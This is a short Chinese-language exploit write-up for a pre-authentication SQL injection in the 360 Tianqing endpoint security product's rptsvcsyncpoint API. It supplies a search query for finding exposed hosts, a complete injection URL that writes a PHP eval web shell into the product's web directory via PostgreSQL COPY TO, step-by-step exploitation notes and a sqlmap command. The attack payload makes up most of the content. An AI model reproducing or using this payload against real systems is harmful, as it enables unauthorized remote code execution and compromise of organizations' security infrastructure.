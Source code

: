 # 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```



使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```



![image-20220209200650958](images/202202092006296.png)

